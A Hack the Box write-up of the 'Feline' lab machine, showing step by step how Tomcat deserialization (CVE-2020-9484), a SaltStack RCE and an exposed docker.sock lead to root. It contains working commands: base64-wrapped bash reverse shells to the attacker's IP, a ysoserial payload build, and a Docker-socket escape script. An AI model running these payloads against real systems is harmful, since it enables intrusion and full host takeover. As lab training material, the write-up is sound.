 ```yaml
---
weight: 1
title: "Hack the Box - Feline"
date: 2021-02-20T14:00:01+08:00
lastmod: 2021-02-20T14:00:01+08:00
draft: false
author: "HcKy"
authorLink: ""
description: "Hack the Box Feline Write-up"
resources:
- name: "featured-image"
  src: "feline.png"

  
tags: ["Linux", "Java", "Deserialization", "Docker", "CVE", HTB]
categories: ["write-ups"]

lightgallery: true
linkToMarkdown: false

toc:
  auto: false
---
```


<div style="text-align:center">Write-up of Feline - Difficulty : Hard </div>
<!--more-->
>Better to live one year as a tiger, then a hundred as sheep.  
>  
>-Madonna Ciccone  


{{< admonition type=bug title="" open=true >}}
Hack the Box was having problems and I had to reset my VPN connection halfway through.  
The IP addresses for my parrot box and for Feline change but it should still be easy to follow along.
{{</admonition>}}

## 1. Overview

Feline is another Linux box running a simple website.  
There is an upload deserialization vulnerability that leads to remote code execution.  
A local port is running an out of date, exploitable version of Saltstack.  
A to-do list was left in the docker root's home directory that referenced docker.sock.  
Escaping from the docker container using docker.sock allowed us to gain root access on the box.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22 and 8080 are open.
There appears to be a website called VirusBucket being hosted by Apache on port 8080. Apache is also out of date.

``` bash 
 nmap -sC -sV -T4 10.129.105.79
```

![nmap](nmap.png)


### 2.2 Website
#### 2.2.1 VirusBucket

Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.129.105.79:8080 which brings us to the front page of the **VirusBucket** website

![VirusBucket](virusbucket.png)

After we do some poking around we wind up on **/service/** where the website allows us to upload files to be *analyzed.* After which the website says it will email us with a generated report.

![upload](vbupload.png)

The website allows us to upload pretty much anything, but to really see what's going on we need to open up Burp and set Firefox to use it as our proxy.  After uploading a few documents and messing with the parameters we found out that if you change the file name to a single period and you'll get a useful error.

![burp](burpdirectory.png)

Looks like the files are being uploaded into **/opt/samples/uploads/**. If we take a look at the rest of the error message we can see some sort of java deserialization going on.
If we do a bit of googling we wind up at [CVE-2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) which is a Tomcat deserialization vulnerability which allows for remote code execution (RCE).

## 3. Foothold

If we take a look at this [write-up](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) explaining the exploit by RedTimmy.
If you don't already have [ysoserial](https://github.com/frohoff/ysoserial) installed you're going to need it. 
```bash
echo "bash -i >& /dev/tcp/10.10.14.56/1234 0>&1" |base64
$payload="bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}"
java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 "${payload}" > hcky.session
```
![ysoserial](session.png)

All we have to do next is upload it with a simple curl command to the same location we saw with Burp.

```bash
curl -F 'image=@hcky.session' http://10.129.105.79:8080/upload.jsp
```
![upload](fileupload2.png)

And then call that file we just uploaded by putting the path to the file in the **JSESSIONID** while we have our netcat listener running. As soon as we send the next curl command we should get a callback and a shell.

![foothold](foothold.png)

Thankfully it turns out that the account that we got a shell as is the user Tomcat and he has read access to the user.txt flag in his **/home/** directory.

![tomcathome](tomcathome.png)
 
## 4. Privilege Escalation
{{< admonition type=info title="" open=true >}}
This is where the IP changed to 10.129.100.82 for Feline and 10.10.14.101 for my Parrot box.
{{</admonition>}}

After doing some manual enumeration nothing major seemed to pop out at us.  
Part of the process should always be checking what ports are listening on the box so we run a **netstat -ant** and see what comes up.

![ports](ports.png)

Looks like there's something listening on ports **4505/4506**.

After some googling we found that this is **Saltstack** which had a recent RCE vulnerability recently advertised as [CVE-2020-11651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11651) and there's even a PoC exploit available on Github written by [jasperla](https://github.com/jasperla/CVE-2020-11651-poc)
You'll need to clone the repo and possible install [Salt](https://docs.saltproject.io/en/latest/topics/installation/debian.html) if you don't have it installed already.

Since the ports are only listening locally we decided to use [chisel](https://github.com/jpillora/chisel.git) to do some port forwarding and gain access to port **4506** of Feline like we were running locally.  We served out the chisel file with **python3 -m http.server** and grabbed it as the tomcat user. Next we started the chisel client and server.

```
FELINE-
./chisel client 10.10.14.101:4242 R:4506:127.0.0.1:4506

ATTACKBOX
chisel server -p 4242 --reverse
```

![chisel](chisel.png)

Now that we have chisel connected all we have to do is start our netcat listener and run the **exploit.py** that we cloned earlier.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.101/1234 0>&1"'
```
![chisel2](chisel2.png)

Just like that we have root, well... a root.

### 4.1 Privesc Round 2

So as we can tell, we have root, but it's inside a docker container. After some enumeration we wound up finding a **todo.txt** and some commands in **.bash_history** in root's home directory.

![bashhist](bashhist.png)

We can see that a few commands were run regarding **docker.sock**

After some more googling we wind up with an article relating to taking over with **docker.sock** by [Dejan Zelic](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) as well as the regular Docker [documentation](https://docs.docker.com/engine/api/v1.37/#operation/ContainerCreate) for some sanity checks.
This **simple-exec-with-docker-remote-ip.sh** script by [dapplebeforedawn](https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f) was also useful.

A simple script will get us what we need.
```bash
exploit="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.101/2345 0>&1'\\\"\"]"
docker=$(curl -s -X POST --unix-socket /var/run/docker.sock --data-binary "{\"Image\":\"sandbox\",\"cmd\":$exploit, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
ID=$(echo "$docker" | cut -d'"' -f4)
curl --silent -X POST --unix-socket /var/run/docker.sock http://localhost/containers/$ID/start
sleep 5
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/$ID/logs?stderr=1&stdout=1"
```
What this should do is create a container, mount the root directory of the host system, start the containter, and then execute the reverse shell that we put in there, giving us a reverse shell on the host machine as root. 
 
We host the script with another python http server and pull it to Feline.  
So we start another netcat listener on an unused port with **nc -lvnp 2345** and run our script.  
As soon as we run the script we should get a shell as root.

![root](roottxt.png)




## Conclusion

1. Update your software. The exploits used for foothold and the first root were due to outdated software with known exploits.
2. Know the risks of exposing the docker.sock file.  Accept or mitigate as your organization deems necessary.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="http://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
